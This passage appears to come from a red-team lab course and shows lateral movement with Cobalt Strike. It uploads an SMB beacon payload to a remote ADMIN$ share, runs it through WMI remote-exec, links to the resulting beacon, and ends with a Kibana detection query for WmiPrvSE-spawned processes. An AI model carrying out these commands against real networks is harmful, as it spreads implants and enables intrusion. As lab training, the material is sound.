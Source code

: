 As you may have noticed, WMI is not part of the `jump` command but it is part of `remote-exec`. The `remote-exec` method uses WMI's "process call create" to execute any command we specify on the target. The most straight forward means of using this is to upload a payload to the target system and use WMI to execute it.

Generate an x64 Windows EXE for the SMB listener, upload it to the target by `cd`'ing to the desired UNC path and then use the `upload` command.
```shell
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

The process is now running on SRV-1 so now we need to connect to it.
```shell
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

When binaries are executed via WMI (using process call create), it will be a child of `WmiPrvSE.exe`. So defenders could look for Process Create events where **WmiPrvSE** is the parent. This would also be the case if you use WMI to execute a PowerShell one-liner.
```shell
event.module: sysmon and event.type : process_start and process.parent.name : WmiPrvSE.exe
```

>Move laterally to SRV-1 via WMI and investigate the logs in Kibana.

